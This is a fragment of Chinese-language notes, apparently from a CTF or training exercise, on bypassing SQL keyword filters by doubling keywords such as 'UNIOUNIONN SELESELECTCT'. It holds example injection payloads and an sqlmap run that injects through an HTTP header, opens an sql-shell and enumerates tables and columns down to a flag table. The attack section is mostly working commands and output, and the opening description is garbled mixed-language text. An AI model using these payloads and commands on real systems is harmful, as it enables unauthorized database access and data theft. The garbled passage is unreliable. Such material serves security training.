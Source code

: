 作用：双重查询语句。取代predefined SQL关键字with表示 suitable for替代（例如 .replace（“SELECT”、””)） filters

示例：

```
'1 UNION SELECT 2--'
'1 UNIOUNIONN SELESELECTCT 2--'
```

在以下版本做过测试:

```
all
```

后续内容将会继续更新。。。。。。。。。

参考资料：

安全牛课堂-kali-linux-web篇

sqlmap用户手册中文版：<https://octobug.gitbooks.io/sqlmap-wiki-zhcn/content/Users-manual/Introduction.html>

sqlmap用户手册：<http://drops.xmd5.com/static/drops/tips-143.html>





例子：

```
$ sqlmap -u "https://[REDACTED]/server.php" --header "Status: *" --prefix "3'" --suffix "#" --tamper "randomcase,space2comment" -A "" --dbms mysql --string "HTTP 401 Unauthorized" --technique=B --sql-shell --threads=8
# ...[OMITTED]...
[69:69:69] [INFO] (custom) HEADER parameter 'Status #1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[69:69:69] [INFO] checking if the injection point on (custom) HEADER parameter 'Status #1*' is a false positive
(custom) HEADER parameter 'Status #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 10 HTTP(s) requests:
---
Parameter: Status #1* ((custom) HEADER)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: 3' AND 114514=114514#
---
# ...[OMITTED]...
sql-shell> SELECT table_name FROM information_schema.tables WHERE table_schema=database()
# ...[OMITTED]...
[*] f1111111144444444444g
[*] status

sql-shell> SELECT column_name FROM information_schema.columns WHERE table_name='f1111111144444444444g'
# ...[OMITTED]...
[*] ffffff14gggggg

sql-shell> SELECT ffffff14gggggg FROM f1111111144444444444g
# ...[OMITTED]...

```